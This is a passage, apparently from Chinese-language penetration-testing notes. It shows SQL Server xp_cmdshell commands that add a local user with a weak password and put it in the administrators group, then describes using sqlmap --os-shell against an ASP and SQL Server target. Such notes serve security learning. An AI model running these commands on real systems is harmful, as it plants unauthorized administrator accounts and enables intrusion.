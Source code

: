 ```bash
exec xp_cmdshell 'net user guawa 123.com /add';               //添加用户ichunqiu，密码123.com
exec xp_cmdshell 'net localgroup administrators guawa /add';  //添加ichungiu到管理员组
```

​![image](assets/image-20241030144152-1qevpwh.png)​![image](assets/image-20241030144229-32e14le.png)​​

###### 🌰栗子

目标网站asp+sqlserver

​![image](assets/image-20241029155903-ohlrrh5.png)​

这里使用sqlmap --os-shell去查看权限

​![image](assets/image-20241029155944-08ews2b.png)​
